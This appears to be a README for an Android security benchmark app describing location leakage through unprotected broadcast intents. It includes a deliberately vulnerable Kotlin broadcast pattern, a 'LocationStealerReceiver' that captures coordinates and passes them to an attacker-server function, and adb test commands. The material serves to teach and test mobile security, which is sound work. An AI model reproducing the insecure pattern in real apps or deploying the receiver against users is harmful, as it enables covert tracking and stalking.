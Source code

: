 # oxo-android-ben60: Location Exposure via Broadcast Intent

## Vulnerability Overview

Location Exposure via Broadcast Intent occurs when Android applications send user location data through unprotected broadcast intents that any installed application can intercept without requiring location permissions. This vulnerability allows malicious apps to track user movements and build detailed location profiles without user consent or awareness.

## Attack Vector: Unprotected Location Broadcast Interception

**Brief Explanation**: A fitness tracking app that broadcasts location updates for internal synchronization but fails to protect these broadcasts with permissions, allowing any malicious app to intercept GPS coordinates, timestamps, and movement patterns without requesting location permissions from the user.

**Key Characteristics:**
- Location data sent via unprotected broadcast intents
- No permission requirements for receiving broadcasts
- Malicious apps can register broadcast receivers to intercept location data
- Complete location tracking possible without user awareness
- Bypasses Android's location permission system

**Vulnerable Code Pattern:**
```kotlin
// VULNERABLE: Unprotected location broadcast
fun broadcastLocationUpdate(location: Location) {
    val locationIntent = Intent("com.fittracker.LOCATION_UPDATE")
    locationIntent.putExtra("latitude", location.latitude)
    locationIntent.putExtra("longitude", location.longitude)
    locationIntent.putExtra("accuracy", location.accuracy)
    locationIntent.putExtra("timestamp", System.currentTimeMillis())
    locationIntent.putExtra("speed", location.speed)
    
    // VULNERABLE: No permission protection on broadcast
    sendBroadcast(locationIntent)  // Any app can receive this!
}

// Legitimate internal receiver for location sync
class LocationSyncReceiver : BroadcastReceiver() {
    override fun onReceive(context: Context, intent: Intent) {
        if (intent.action == "com.fittracker.LOCATION_UPDATE") {
            val lat = intent.getDoubleExtra("latitude", 0.0)
            val lng = intent.getDoubleExtra("longitude", 0.0)
            // Sync location to cloud for fitness tracking
            syncLocationToCloud(lat, lng)
        }
    }
}
```

**Malicious Receiver Code:**
```kotlin
// MALICIOUS: Steals location without permissions
class LocationStealerReceiver : BroadcastReceiver() {
    override fun onReceive(context: Context, intent: Intent) {
        if (intent.action == "com.fittracker.LOCATION_UPDATE") {
            val lat = intent.getDoubleExtra("latitude", 0.0)
            val lng = intent.getDoubleExtra("longitude", 0.0)
            val timestamp = intent.getLongExtra("timestamp", 0)
            val accuracy = intent.getFloatExtra("accuracy", 0f)
            
            // STOLEN: Complete location data without permissions
            Log.d("LOCATION_STOLEN", "User at: $lat, $lng (accuracy: ${accuracy}m)")
            
            // Send stolen location to attacker's server
            sendLocationToAttacker(lat, lng, timestamp)
        }
    }
}
```

## Testing

```bash
# Install the vulnerable fitness tracking app
adb install -r oxo-android-ben60.apk

# Launch FitTracker Pro
adb shell am start -n co.ostorlab.myapplication/.MainActivity

# Start location tracking (trigger GPS broadcasts)
adb shell input tap 540 800  # Tap "Start Workout" button

# Monitor broadcast intents for location data
adb shell dumpsys activity broadcasts | grep -A 10 -B 5 "LOCATION_UPDATE"

# Check for unprotected location broadcasts
adb shell dumpsys activity broadcasts | grep -A 15 "com.fittracker.LOCATION_UPDATE"

# Simulate malicious app intercepting location broadcasts
adb shell am broadcast -a com.fittracker.LOCATION_UPDATE \
  --ef latitude 40.7128 \
  --ef longitude -74.0060 \
  --ef accuracy 10.0 \
  --el timestamp 1693209600000

# Monitor for location leakage in system logs
adb logcat -s LocationStealerReceiver:D LOCATION_STOLEN:D

# Verify location data interception
adb shell dumpsys activity intents | grep -A 5 -B 5 "LOCATION_UPDATE"
```

**Expected Results:**
```
Historical broadcasts summary:
  com.fittracker.LOCATION_UPDATE
    extras: {latitude=40.7128, longitude=-74.0060, accuracy=10.0, timestamp=1693209600000}
    receivers: [multiple apps can receive this unprotected broadcast]
```

**Difficulty**: Easy-Medium

## Impact Assessment

- **Confidentiality**: Critical - Complete exposure of user location data and movement patterns
- **Integrity**: Low - Location data cannot be modified but can be manipulated for false tracking
- **Availability**: Low - Does not affect app functionality but enables stalking/harassment
- **OWASP Mobile Top 10**: M2 - Insecure Data Storage, M4 - Insecure Communication, M10 - Extraneous Functionality
- **CWE**: CWE-200 (Information Exposure), CWE-926 (Improper Export of Android Application Components)

## Location Tracking Attack Scenarios

1. **Silent Stalking**: Malicious apps track user movements without any visible permissions
2. **Behavioral Profiling**: Building detailed profiles of user routines and frequented locations  
3. **Corporate Espionage**: Tracking competitor employees or business associates
4. **Social Engineering**: Using location data for targeted phishing or harassment
5. **Data Aggregation**: Combining location data with other leaked information for identity theft

**Example Attack Flow:**
```bash
# 1. User installs fitness app and grants location permission
# 2. Malicious app installs without requesting location permissions
# 3. Malicious app registers broadcast receiver for location intents
# 4. Fitness app broadcasts location updates for internal sync
# 5. Malicious app silently intercepts all location broadcasts
# 6. Complete user tracking achieved without user awareness
```

This vulnerability demonstrates how unprotected broadcast intents can completely bypass Android's permission system and enable unauthorized location tracking.
